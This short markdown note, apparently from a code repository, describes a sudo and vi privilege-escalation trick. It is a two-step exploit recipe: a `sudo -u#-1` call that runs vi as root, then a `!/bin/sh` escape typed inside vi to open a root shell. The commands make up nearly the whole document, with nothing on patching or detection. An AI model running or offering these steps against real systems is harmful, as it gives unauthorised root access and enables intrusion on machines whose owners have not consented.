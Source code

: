 # Vi editor and sudo vulnerability

- Type:
````shell
sudo -u#-1 /usr/bin/vi file
````
- Then type on the vi finder menu: `!/bin/sh`